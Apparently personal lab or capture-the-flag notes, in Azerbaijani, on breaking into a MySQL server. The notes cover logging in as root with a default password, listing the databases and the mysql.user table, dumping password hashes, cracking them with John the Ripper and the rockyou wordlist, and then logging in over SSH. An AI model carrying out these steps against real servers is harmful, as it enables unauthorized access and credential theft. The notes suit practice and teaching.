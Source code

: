 # nmap scani atiriq default port 3306 mysql portudur (deyisdirile biler ) amma budur 
# eger user root parol passwordd'dirsa
     mysql -u root  -h $ip  -p password
   # istifade edilecek toollar 
    evveline "system"   sonuna ise ( " ; " ) qoyulur ( " ; " deyilisi noqte,vergul)
  ## data bases baxmaq ucun 
     show databases;
#
+--------------------+

| Database           |

+--------------------+

| information_schema |

| mysql              |

| performance_schema |

| sys                |

+--------------------+

#
    use mysql;
      show table
 #
 +---------------------------+

| Tables_in_mysql           |

+---------------------------+

| columns_priv              |

| db                        |

| engine_cost               |

| event                     |

| func                      |

| general_log               |

| gtid_executed             |

| help_category             |

| help_keyword              |

| help_relation             |

| help_topic                |

| innodb_index_stats        |

| innodb_table_stats        |

| ndb_binlog_index          |

| plugin                    |

| proc                      |

| procs_priv                |

| proxies_priv              |

| server_cost               |

| servers                   |

| slave_master_info         |

| slave_relay_log_info      |

| slave_worker_info         |

| slow_log                  |

| tables_priv               |

| time_zone                 |

| time_zone_leap_second     |

| time_zone_name            |

| time_zone_transition      |

| time_zone_transition_type |

| user                      |

+---------------------------+

#

## bir table icerisindeki melumatlarin hamisina baxmaq ucun istifade edeceyik (sql injection rast geleceyik)

## example

     select  * from user \G;
   
   ## userin hashini goturdukden sonra john ile runlayib parolu tapiriq 
       
        john hash --wordlist=/usr/share/wordlists/rockyou.txt 

   # userin adini ve parolu john ile qirdiqdan sonra ssh ile usere daxil oluruq     
        
